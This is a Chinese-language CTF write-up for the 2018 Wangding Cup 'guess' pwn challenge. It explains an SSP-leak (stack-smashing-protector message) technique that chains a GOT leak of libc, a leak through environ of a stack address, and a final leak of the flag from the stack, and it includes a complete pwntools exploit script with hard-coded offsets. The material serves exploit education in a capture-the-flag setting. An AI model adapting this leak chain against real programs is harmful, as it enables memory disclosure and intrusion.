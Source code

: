 
title: 2018网鼎杯guess (ssp leak)

comments: true

date: 2018-08-22 08:13:34

categories:
- CTF
- ssp leak


[题目下载](GUESS_3761eaaa3eb6e09db4eecc56b64f32e3.zip)



## 分析题目

 ![img-1](img-1.png)



程序把flag读在栈上，提供了栈溢出，但是有canary保护，看似没有其他漏洞了.

可以使用[ssp leak](https://amliaw4.github.io/2018/08/22/ssp-leak/)，但是不知道栈地址。

从程序提供3次输入机会想到可以先用got地址泄露libc，然后用libc上的environ泄露栈地址，然后算出得到的栈地址与flag的距离，最后拿flag。

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
# context.log_level = 'debug'

environ = 0x03C6F38
p = process("./GUESS")
p.sendline(p64(0x602040)*0xa0)
print p.recvuntil("***: ")
read_offset = u64(p.recv(6).ljust(8, "\x00"))
libc = read_offset - 0xF7250
environ += libc
print hex(libc)

p.recvuntil("flag\n")
p.sendline(p64(environ)*0xa0)
print p.recvuntil("***: ")
stack = u64(p.recv(6).ljust(8, "\x00"))
print hex(stack)

p.recvuntil("flag\n")
p.sendline(p64(stack - 0x168)*0xa0)
print p.recvuntil("***: ")
print p.recvline()
p.close()

```

- 地址 0x03C6F38：
  - environ地址
  - `libc.symbols['__environ']`

- 地址 0x602040：
  - read 的 got.plt 地址

- 地址 0xF7250：
  - `libc.symbols['read']`



## 参考

https://paper.tuisec.win/detail/f8d629ce47c117c

https://xz.aliyun.com/t/2608#toc-7